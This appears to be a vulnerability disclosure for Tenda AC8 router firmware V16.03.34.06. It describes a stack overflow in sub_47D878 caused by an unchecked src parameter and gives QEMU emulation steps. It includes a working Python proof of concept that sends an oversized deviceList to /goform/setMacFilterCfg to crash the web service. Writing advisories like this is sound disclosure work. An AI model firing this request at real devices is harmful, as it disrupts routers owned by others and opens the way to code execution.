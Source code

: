 sub\_47d878
-----------

Tenda AC8 version **V16.03.34.06** was discovered to contain a stack overflow via the src parameter in the function sub\_47D878.

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

In the `sub_47D878` function at line 8, data is read from a user-supplied parameter provided by the caller function, and the `src` variable is passed to the functions at lines 28 and 29 without any length validation. This lack of length checking could lead to a stack-based buffer overflow. As a result, by crafting a malicious request to the page, an attacker could easily exploit this vulnerability to execute a denial of service (DoS) attack or achieve remote code execution (RCE). This poses a significant security risk, as it allows an attacker to crash the system or execute arbitrary code remotely.

![image](https://github.com/user-attachments/assets/58e75f9a-479c-4683-adf2-a1edda920426)

### PoC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```text-plain
import requests

ip = '192.168.142.100'
headers = {
    'Host': ip,
}

deviceList = 'R'*1000 + "\r10:11:11:11:11:22"
data = 'macFilterType=black&deviceList='+ deviceList


response = requests.post(
    f'http://{ip}/goform/setMacFilterCfg',
    headers=headers,
    data=data,
    verify=False,
)
```
![image](https://github.com/user-attachments/assets/03eb9bbc-8c82-4716-baf5-4997065cd32d)
